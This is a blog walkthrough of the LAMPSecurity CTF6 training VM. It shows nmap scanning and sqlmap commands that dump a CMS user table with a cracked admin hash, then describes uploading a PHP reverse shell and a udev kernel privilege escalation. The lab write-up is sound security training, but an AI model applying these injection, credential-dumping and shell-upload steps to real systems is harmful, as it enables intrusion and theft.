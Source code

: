 ```yaml
---
layout: blog_item
title:  "LAMP Security CTF6 - Walkthrough"
date:   2024-03-04 19:40:60
author: Dhruv Ambaliya
description: 'LAMP Security CTF 6 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com)

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the <b>web application</b> as the entry point.</p>
</div>

## Enumeration

### Host Service Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.131

{% endhighlight %}

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 110</code></p></pc>
           </td>
           <td>
              <pc><p>pop3</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>rpcbind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 143</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 621</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 993</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 995</code></p></pc>
           </td>
           <td>
              <pc><p>POP3 SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP:3306 </code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL 5.0.45</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Web Application Enumeration

Inspection of the Web Application indicated it was vulnerable to SQL injection.



## SQLMap - SQL Injection

SQLMap confirmed [SQL injection](/penetration-testing/web-app/sql-injection/)) was possible.

{% highlight bash %}
[ root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms --dbs

available databases [5]:
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
{% endhighlight %}

SQLMap form enumeration:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
--tables

Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+
{% endhighlight %}

SQLMap database dump + admin account hash cracked:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
-T user --dump

Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------------------+
| user_id | user_username | user_password                                |
+---------+---------------+----------------------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 (adminpass) |
+---------+---------------+----------------------------------------------+
{% endhighlight %}

## Web Application Exploitation

Using the previously discovered admin account credentials, it was possible to login to the web application and upload a php reverse shell using an image upload form.

![PHP Web Shell Upload](/img/blog/ctf6/webshell.png)

## Local Privilege Escalation

A successful reverse shell was establish and the kernel appeared to be
vulnerable to a well know [Linux 2.6 kernel udev
exploit](https://www.exploit-db.com/exploits/8478/).

{% highlight bash %}
sh-3.2$ uname -ar
Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008
i686 i686 i386 GNU/Linux
{% endhighlight %}

The exploit requires the PID for the udev process, the exploit does not work
flawlessly as you can see below it may take several attempts to get a root
shell.

![Exploit Process UDEV PID](/img/blog/ctf6/exploit-process-udev-pid.png)

Thanks for the VM :)
